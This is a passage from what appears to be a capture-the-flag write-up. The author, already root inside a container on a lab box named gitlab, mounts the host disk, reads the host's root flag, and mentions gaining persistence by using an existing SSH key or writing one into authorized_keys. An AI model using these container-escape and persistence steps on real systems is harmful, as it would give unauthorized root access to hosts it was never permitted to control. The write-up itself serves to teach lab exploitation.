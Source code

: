 I’ll mount it, and now have access to the host filesystem:

```

root@gitlab:/# mount /dev/sda2 /mnt 
root@gitlab:/# ls /mnt/
bin  boot  cdrom  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var

```

I can get the flag:

```

root@gitlab:/# cat /mnt/root/root.txt
b7f98681************************

```

There’s also an SSH key already there, or I could write my own into the `authorized_keys` file.

[Digging into cgroups »](/2021/05/17/digging-into-cgroups.html)